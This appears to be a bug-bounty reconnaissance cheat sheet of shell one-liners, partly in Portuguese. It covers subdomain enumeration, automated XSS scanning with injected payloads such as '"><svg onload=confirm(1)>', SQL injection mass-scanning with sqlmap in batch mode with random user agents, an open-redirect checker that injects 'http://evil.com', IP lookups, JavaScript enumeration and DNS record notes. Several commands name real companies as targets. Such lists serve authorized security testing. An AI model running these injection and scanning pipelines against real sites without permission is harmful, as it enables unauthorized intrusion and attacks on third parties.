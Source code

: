 ## General Commands

#### _xargs_ (carrega lista para uma tool)
 
 https://linuxhandbook.com/xargs-command/

 ``` $ xargs -a lista -I@ sh -c 'python3 paramspider.py -d "@"' ```

``` $ python3 paramspider.py -d | kxss ```

``` $ wfuzz -c -w burp-parameter-name.txt http://domain/index.php?FUZZ=test ```

``` $ wfuzz -c -w burp-parameter-name.txt http://domain/index.php?search=FUZZ ```

# OneLiners

## Subdomain enum

#### _Subdomain enum with JLDC_

 https://github.com/brunosergi0/curlmeallsubdomains
 https://github.com/Fadavvi/Sub-Drill/blob/master/Sub-Drill.sh

 ``` $ curl -s "https://jldc.me/anubis/subdomains/att.com" | grep -Po "((http|https):\/\/)?((\w.-]*)\.([\w]*)\.([A-z]))\w+" | anew file" ```

## XSS

#### _xss with freq_

 https://github.com/takshal/freq

 ``` $ echo domain.com | waybackurls | gf xss | uro | qsreplace '"><img src=x onerror-alert(1);>' | freq | grep -v 'Not' ```

#### _XSS with gau_

 https://github.com/s0md3v/uro

 ``` $ echo domain.com | gau | gf xss | uro | httpx -silent | qsreplace '"><svg onload=confirm(1)>' | airixss - payload "confirm(1)" | grep -v 'Not' ```
 
 ``` $ echo domain.com | waybackurls | gf xss | uro | httpx -silent | qsreplace '"><svg onload=confirm(1)>' | airixss - payload "confirm(1)" ```

 #### _find xss with hakrawler_

 https://github.com/hakluke/hakrawler

 ``` $ echo domain.com | httpx -silent | hakrawler -subs | grep "=" | qsreplace '"><svg onload=confirm(1)>' | airixss -payload "confirm(1)" | grep -v 'Not' ``` 


 #### xss automation

``` $ echo domains-with-params | gxss -p test | dalfox pipe --mining-dict-word arjun/params.txt --skip-bav -o file.txt ```

``` $ echo domains | waybackurls | uro | gf xss | dalfox pipe --skip-bav ```

https://github.com/hahwul/dalfox

https://github.com/RenwaX23/XSSTRON


## SQLi

#### _SQLi_

 https://github.com/Findomain/Findomain

 ``` $ findomain -t domain.com -q | httpx -silent | anew | waybackurls | gf sqli >> sqli ; sqlmap -m sqli --batch --random-agent --level 1 ```

 ``` $ echo domains | httpx -silent | anew | waybackurls | gf sqli >> sqli.txt ; sqlmap -m sqli.txt --batch --random-agent --level 1 ```

## OpenRedirect

 #### _Open Redirect_

 https://github.com/tomnomnom/qsreplace
 
 ``` $ waybackurls domain.com | grep -a -i \=http | qsreplace 'http://evil.com' | while read host do;do curl -s -L $host -I | grep "evil.com" && echo -e "$host \033[0;31mVulnerable\n" ;done ```
 

## PortScan

#### _port scan_

 https://github.com/j3ssie/sdlookup
 
 ``` $ echo domain.com | subfinder -silent | httpx -silent -ip | awk '{print $2}' | tr -d '[]' | xargs -I@ sh -c 'echo @ | sdlookup -json | python -m json.tool' ```
 
 
 ``` $ echo doamin.com | httpx -silent -ip | awk '{print $2}' | tr -d '[]' | xargs -I@ sh -c 'echo @ | sdlookup -json | python -m json.tool' ```

## Enum javascript

 ``` $ echo tesla.com | gau | subjs ```
 
 ``` $ echo tesla.com | gau | grep -iE '\.js' ```
 
 ``` $ cat tesla | httpx -status-code -mc 200 -content-type | grep 'application/json' ```
 
 ``` $ cat tesla | httpx -status-code -mc 200 | anew ```

 ``` $ echo domains | waybakcurls| getJS ```


#### send notifications to multiple places 

https://github.com/projectdiscovery/notify

https://crontab-generator.org/

# Automation 

- https://github.com/KingOfBugbounty/DockerHunt

- https://hub.docker.com/r/mswell/hacktools

``` $ echo domains | gau | hakcheckurl | grep -v '404|999|403|500' ```

## DNS

- A -> ipv4
- AAAA -> ipv6
- CNAME -> domains
- TXT -> notes/text
- MX -> email servers
- SOA -> domains validations
- NS -> authority servers

### dig 

- https://www.cyberciti.biz/faq/linux-unix-dig-command-examples-usage-syntax/
- https://www.thegeekstuff.com/2012/02/dig-command-examples/
- https://www.hostinger.com/tutorials/how-to-use-the-dig-command-in-linux/
